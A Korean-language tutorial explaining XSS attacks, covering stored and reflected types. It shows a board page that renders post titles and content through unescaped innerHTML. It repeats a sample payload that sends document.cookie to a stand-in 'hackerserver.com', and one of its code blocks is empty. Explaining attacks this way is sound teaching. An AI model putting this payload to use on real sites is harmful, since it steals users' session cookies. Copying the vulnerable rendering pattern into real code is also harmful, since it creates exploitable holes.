


# xss 공격이란?

XSS(Cross Site Scripting)란 공격자가 웹사이트에 악성 스크립트를 삽입하여, 해당 웹사이트에 방문한 다른 사용자의 브라우저에서 스크립트가 실행되도록 하는 클라이언트 측 코드 삽입 공격이다. 이 공격을 통해 공격자는 사용자의 쿠키, 세션 토큰 등을 탈취하거나 악성 코드를 실행시켜 정보를 훔치거나 시스템을 손상시킬 수 있다.

XSS는 대표적으로 저장형(Stored), 반사형(Reflected), DOM 기반(DOM-based) 세 가지 유형으로 나뉜다.

## 저장형(Stored) XSS
Stored XSS는 악성 스크립트를 서버의 데이터베이스에 저장(Stored)하는 형태의 공격이다. 
게시판처럼 주로 사용자에게 입력받은 값을 서버에 저장해놓고, 저장해놓은 내용을 다시 사용자에게 출력하는 곳에서 발생한다. 



예시) 
공격자가 악성 스크립트를 포함된 게시글을 작성해 게시판에 업로드하고 서버가 입력값을 적절히 필터링하지 않고 그대로 데이터베이에 저장한다. 
다른 사용자가 해당 게시글을 읽기 위해 get요청을 보내면 서버는 데이터베이스에서 악성 스크립트가 있는 게시글을 그대로 가져와 사용자에게 전송한다. 
사용자 브라우저에서 해당 글을 렌더링하는 과정에서 숨겨진 악성 스크립트를 정상적인 코드로 오인해 실행 된다.

```
// 글 생성 페이지
<input id="title" placeholder="제목" />
<textarea id="content" placeholder="본문"></textarea>
<button onclick="submitPost()">등록</button>

<script>
  // 서버로 글 생성 요청
</script>
```

```
// 글 조회 페이지
<h2>게시판</h2>
<div id="posts"></div>

<script>
  const postId = 1;
  fetch(`/posts/${postId}`)
    .then(res => res.json())
    .then(post => {
      const container = document.getElementById("post");
      container.innerHTML = `
        <h1>${post.title}</h1>
        <p>${post.content}</p>
      `;
    });
</script>
```

글 생성 페이지에서 제목 인풋에 <script>location.href="http://hackerserver.com/steal?data="+document.cookie;</script> 이런 값을 넣어 글을 생성하면 글을 조회할때 그대로 스크립트 태그를 실행시키게 된다. 해당 코드의 경우 해커의 서버에 브라우저의 쿠키값을 URL파라미터로 보내는 코드이고 공격자 서버의 로그에 사용자의 쿠키 정보가 기록이 되게된다.


## 반사형(Reflected) XSS
Reflected XSS는 악성 스크립트를 URL에 작성하여 전달하는 형태의 공격이다.




예시)
```

```

해당 코드는 글을 검색하는 코드이고 URL에서 query 파라미터 추출하여 그대로 출력하는 코드이다. 여기서 query 파라미터에 악성 스크립트를 넣고 해당 URL로 접속한다면, query 파라미터를 추출한 후 출력할때 악성 스크립트가 실행 될 것이다. 예를 들어 "{웹URL}/?<script>location.href="http://hackerserver.com/steal?data="+document.cookie;</script>" 이런 경로로 사용자가 접속한다면 해당 악성 스크립트가 그대로 실행되어 해커의 서버로 쿠키 정보가 넘어갈 것이다.


